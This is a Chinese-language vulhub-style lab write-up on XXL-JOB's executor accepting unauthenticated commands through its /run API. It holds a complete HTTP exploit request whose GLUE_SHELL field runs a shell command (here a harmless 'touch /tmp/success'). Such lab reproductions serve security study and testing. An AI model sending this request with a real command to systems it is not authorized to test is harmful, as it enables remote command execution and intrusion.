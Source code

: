 # XXL-JOB executor 未授权访问漏洞

###### by ADummy

### 0x00利用路线

​			直接url执行

### 0x01漏洞介绍

​			XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

影响版本

```
xxl—job  >= 2.2.0
2.2.0版本的XXL-JOB没有RESTful API，我们可以通过Hessian反序列化来执行命令。
```

### 0x 02漏洞复现

​			环境启动后，访问`http://your-ip:8080`即可查看到管理端（admin），访问`http://your-ip:9999`可以查看到客户端（executor）。

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![XXL_JOB_executor_未授权访问漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/XXL_JOB_executor_未授权访问漏洞_1.jpg)

`touch /tmp/success`已成功执行：

![XXL_JOB_executor_未授权访问漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/XXL_JOB_executor_未授权访问漏洞_2.jpg)





